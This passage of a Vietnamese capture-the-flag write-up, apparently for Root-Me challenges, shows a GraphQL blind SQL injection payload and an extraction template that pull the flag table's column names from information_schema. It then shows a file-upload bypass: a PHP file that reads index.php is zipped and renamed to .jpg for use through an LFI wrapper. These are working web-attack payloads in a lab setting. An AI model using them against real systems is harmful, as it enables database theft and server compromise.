 ```
{
    rocket(id: "1 and (SELECT table_name FROM information_schema.tables where table_name like 'flag%' limit 1)='flag'--") {
        name
        country
        is_active
    }
}
```

![image](https://hackmd.io/_uploads/HyklSbgbkl.png)

![image](https://hackmd.io/_uploads/HyherZxb1x.png)

![image](https://hackmd.io/_uploads/S1gVS-lZ1e.png)

Có cột id và value trong bảng flag

![image](https://hackmd.io/_uploads/ry05IWgb1l.png)


```
{"query": "{\n    rocket(id: \"1 and (SELECT substring(column_name,§1§,1) FROM information_schema.columns where table_name like 'flag%' limit 2,1)='§f§'--\") {\n        name\n        country\n        is_active\n    }\n}"}
```


## Local File Inclusion - Wrappers

bài lfi hint như tiêu đều -> đi vào trang chính có chức năng upload file chỉ cho phép up file đuôi jpg.

thử qua php filter không được -> nghĩ tới upload file nên mình thử file zip

```
┌──(l3mnt2010㉿ASUSEXPERTBOOK)-[~/rootme]
└─$ zip a.zip a.php
  adding: a.php (stored 0%)

┌──(l3mnt2010㉿ASUSEXPERTBOOK)-[~/rootme]
└─$ mv payload.zip a.jpg;
mv: cannot stat 'payload.zip': No such file or directory

┌──(l3mnt2010㉿ASUSEXPERTBOOK)-[~/rootme]
└─$ mv a.zip a.jpg;

┌──(l3mnt2010㉿ASUSEXPERTBOOK)-[~/rootme]
└─$ cat a.php
<?php echo file_get_contents('index.php'); ?>

```

thực hiện zip 1 file php và đổi tên thành jpg -> upload thành công
